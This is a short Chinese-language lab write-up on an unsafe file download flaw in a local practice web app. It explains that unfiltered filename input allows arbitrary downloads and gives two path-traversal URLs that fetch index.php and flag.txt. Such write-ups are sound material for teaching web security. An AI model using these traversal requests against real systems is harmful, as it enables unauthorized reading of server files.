 



## Unsafe Filedownload

本质上就是对用户输入的东西没有进行限制，导致可以任意下载

如下可以复制链接进行修改

![image-20250121072808573](../../_media/image-20250121072808573.png)

都可以进行下载

```
http://127.0.0.1/vul/unsafedownload/execdownload.php?filename=../../../index.php
```

```
http://127.0.0.1/vul/unsafedownload/execdownload.php?filename=../../../flag.txt
```

![image-20250121073022138](../../_media/image-20250121073022138.png)
